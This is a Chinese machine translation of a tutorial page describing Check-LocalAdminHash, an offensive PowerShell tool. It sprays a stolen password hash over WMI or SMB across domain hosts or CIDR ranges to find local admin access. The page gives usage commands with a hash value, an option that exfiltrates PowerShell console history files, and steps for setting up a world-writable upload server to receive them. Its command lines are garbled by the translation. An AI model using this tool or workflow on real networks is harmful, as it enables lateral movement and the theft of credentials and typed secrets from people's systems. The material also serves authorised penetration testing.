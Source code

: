 # Check-LocalAdminHash:通过 WMI 或 SMB 对多个主机进行身份验证的 PowerShell 工具

> 原文：<https://kalilinuxtutorials.com/check-localadminhash/>

[![Check-LocalAdminHash : PowerShell Tool To Authenticate Multiple Hosts Over WMI Or SMB](img//bb802d43509f63cbc1dc73b740c034c5.png "Check-LocalAdminHash : PowerShell Tool To Authenticate Multiple Hosts Over WMI Or SMB")](https://1.bp.blogspot.com/-CSbbpMSYUbk/Xi64WEYEJNI/AAAAAAAAEnk/2w_cuK4HO9QXVQMlVoQM51Lh_iUAtGjPQCLcBGAsYHQ/s1600/Check-LocalAdminHash.png)

**Check-LocalAdminHash** 是一个 PowerShell 工具，它尝试使用密码哈希通过 WMI 或 SMB 对多个主机进行身份验证，以确定所提供的凭据是否是本地管理员。

如果你获得一个用户的密码散列，并想知道他们在网络上的本地管理员位置，这是很有用的。它本质上是我最喜欢的两个工具和一些我自己的代码的科学怪人。

这个脚本存在的原因是，在一次评估中，我想从网络上的每个系统收集所有 PowerShell 控制台历史文件(PSReadline)。PSReadline 控制台历史实际上是 bash 历史的 PowerShell 版本。

它可以包含许多有趣的东西，人们可以在终端上输入密码。因此，这个脚本中包含了一个选项，也可以过滤所有的 PSReadline 文件。这里有一点设置。有关设置，请参见自述文件的末尾。

**例题**

***对照 WMI*** 上的所有主机检查本地管理哈希

此命令将使用域“testdomain.local”来查找所有系统，然后尝试使用用户“test domain . local \ possible minuser”和 WMI 上的密码哈希对每个系统进行身份验证。

**Check-LocalAdminHash-Domain test Domain . local-user Domain test Domain . local-Username possible minuser-password hash e 62830 daed 8d bea 4 ACD 0 b 99d 682946 bb-all systems**

***导出所有 PSReadline 控制台历史文件***

此命令将使用域“testdomain.local”来查找所有系统，然后尝试使用用户“test domain . local \ possible minuser”和 WMI 上的密码哈希对每个系统进行身份验证。然后，它会尝试在每个系统上查找每个配置文件的 PowerShell 控制台历史文件(PSReadline ),然后将它们发送到 web 服务器。请参阅自述文件底部的服务器设置。

**Check-LocalAdminHash-Domain test Domain . local-user Domain test Domain . local-Username possible minuser-password hash e 62830 daed 8d bea 4 acd0b 99d 682946 bb-all systems-ExfilPSReadline**

***使用 CIDR 测距***

此命令将使用提供的 CIDR 范围来生成目标列表，然后尝试使用本地用户“PossibleAdminUser”和 WMI 上的密码哈希来验证每个列表。

**Check-LocalAdminHash-Username possible minuser-password hash e 62830 daed 8d bea 4 acd0b 99d 682946 bb-CIDR 192 . 168 . 1 . 0/24**

***使用目标列表和 SMB 并输出到文件***

此命令将使用提供的目标列表，并尝试使用本地用户“PossibleAdminUser”和 SMB 上的密码哈希对每个主机进行身份验证。

**Check-LocalAdminHash-Username possible minuser-password hash e 62830 daed 8d be a4 ACD 0 b 99d 682946 bb-target list C:\ temp \ target list . txt-Protocol SMB | Out-File-Encoding Ascii C:\ temp \ local-admin-systems . txt**

***单目标***

此命令尝试通过 SMB 针对系统 192.168.0.16 为用户管理员执行本地身份认证。

**Check-LocalAdminHash-target system 192 . 168 . 0 . 16-用户名 Administrator-password hash e 62830 daed 8d bea 4 ACD 0 b 99d 682946 bb-协议 SMB**

**也可阅读-[AlertResponder:AWS 无服务器应用模型的自动安全警报响应框架](https://kalilinuxtutorials.com/alertresponder/)**

***检查-LocalAdminHash 选项***

*   **用户名—**用于尝试验证的用户名。
*   **Password hash—**用户的密码哈希。
*   **target system–**用于验证尝试的单个主机名或 IP。
*   **target list–**每行扫描一个主机的主机列表
*   **all systems—**启用时利用 PowerView 模块枚举所有域系统的交换机。然后，该列表用于检查本地管理员访问。
*   **域—**这是 PowerView 将用于发现系统的域。
*   **用户域–**这是用于向每个系统进行身份验证的用户域。如果使用本地凭据而不是域凭据，请不要使用此标志。
*   **协议–**这是使用 WMI 还是 SMB 检查哈希的设置。默认为“WMI”，但将其设置为“中小企业”以进行检查。
*   **CIDR—**指定 CIDR 形式的网络范围，如 192.168.0.0/24
*   **线程—**默认为 5 个线程。(我遇到过一些设置线程数超过 15 的奇怪问题，有些结果没有返回。)
*   **ExfilPSReadline–**对于认证成功的每个系统，它运行 PowerShell 命令来定位 PSReadline 控制台历史文件(PowerShell 命令历史),然后将它们发送到 web 服务器。请参阅自述文件了解服务器设置。

***PSReadline 渗出设置***

**这是您的警告**，您将设置一个面向互联网的服务器，接受文件上传。通常，这是一件非常糟糕的事情。所以在这样做的时候一定要采取预防措施。我建议**锁定防火墙规则**，这样只有上传 PSReadline 文件的 IP 才能访问网络服务器。此外，虽然我们的主题是安全，这将与 HTTPS 连接工作得很好，所以设置您的域和证书，使 PSReadline 文件通过网络加密发送。你已经被警告了…

*   在你想发送文件的地方设置一个服务器。必须可以从每个系统通过 HTTP/HTTPS 访问该服务器。
*   从这个 repo 中复制 index.php 脚本，并将其放在 web 服务器的 web 根目录(/var/www/html)下的/index.php 中。
*   制作上传目录

**mkdir/var/www/html/uploads**

*   修改此目录的权限

**chmod 0777/var/www/html/uploads**

*   确保安装了 php

**apt-get 安装 php**

*   重启 Apache

**服务 apache2 重启**

*   在 Check-LocalAdminHash.ps1 脚本中，向下滚动到“Gen-EncodedUploadScript”函数，并修改“$ UnencodedCommand”下的“$Url”变量。指向你的网络服务器 index.php 页面。我还没有想出如何将 UploadUrl 变量传递到最终被编码并在目标系统上运行的那部分代码中，所以现在还是硬编码吧。

现在，当您使用-ExfilPSReadline 标志运行 Check-LocalAdminHash 时，它应该尝试将每个 PSReadline(如果有)发送到您的 web 服务器。

![](img//db0e39a7d37e5bf0947a1b7886fea49b.png)

**学分**

Check-LocalAdminHash 几乎是我最喜欢的两个工具 PowerView 和 Invoke-TheHash 的弗兰肯斯坦。95%的代码来自这两个工具。因此，这归功于 Kevin Robertson(@ Kevin _ Robertson)的 Invoke-TheHash，这归功于 Will Schroeder (@harmj0y)、Matt Graeber (@mattifestation)(以及任何其他在 PowerView 上工作的人)。没有这两个工具，这个脚本就不会存在。同时也要感谢史蒂夫·博罗什(@424f424f)在穿线和成为一个全面的令人敬畏的家伙方面的帮助。

[**Download**](https://github.com/dafthack/Check-LocalAdminHash)